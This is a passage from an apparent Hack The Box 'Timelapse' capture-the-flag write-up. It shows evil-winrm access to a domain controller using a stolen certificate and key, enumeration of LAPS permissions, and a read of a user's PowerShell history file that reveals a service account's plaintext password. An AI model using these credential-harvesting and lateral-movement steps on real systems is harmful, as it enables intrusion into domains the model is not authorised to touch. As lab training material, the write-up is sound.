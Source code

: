 Use the certificate and decrypted private key to access the target via WinRM and grab the user flag from `C:\Users\legacyy\Desktop\user.txt`.

```bash
$ evil-winrm -i dc01.timelapse.htb --ssl -u timelapse.htb\\legacyy -c legacyy_dev_auth.crt -k legacyy_dev_auth-decrypted.key
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents> ls C:\Users\legacyy\Desktop\user.txt


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/29/2022   5:24 PM             34 user.txt
```

---

## Domain & Local Enumeration

With a foothold on the domain, enumerate the domain's principals and the relationships between them.

Looking through this data, other than WinRM access to `dc01.timelapse.htb`, `legacyy` doesn't seem to have any other useful privileges in the domain.

Following the lead based on the LAPS-related contents of `Shares/HelpDesk/`, it does appear that LAPS is enabled for `dc01.timelapse.htb`. There exists a user `timelapse.htb\svc_deploy` who is a member of the `LAPS_Readers` group, which has `ReadLAPSPassword` permission on `dc01.timelapse.htb`. With access to this account, it will be possible to read the local administrator password on `dc01.timelapse.htb` (which is also the domain administrator).

![](images/Pasted%20image%2020220329154752.png)

Further domain enumeration doesn't yield any clear misconfiguration paths from `legacyy` to `svc_deploy`. However, local enumeration proves fruitful. `legacyy`'s PowerShell console history contains a snippet of code initiating a PowerShell session as `svc_deploy` to run a command on `dc01.timelapse.htb`, revealing `svc_deploy`'s password: `E3R$Q62^12p7PLlC%KWaxuaV`.

```powershell
*Evil-WinRM* PS C:\Users\legacyy> cat C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

---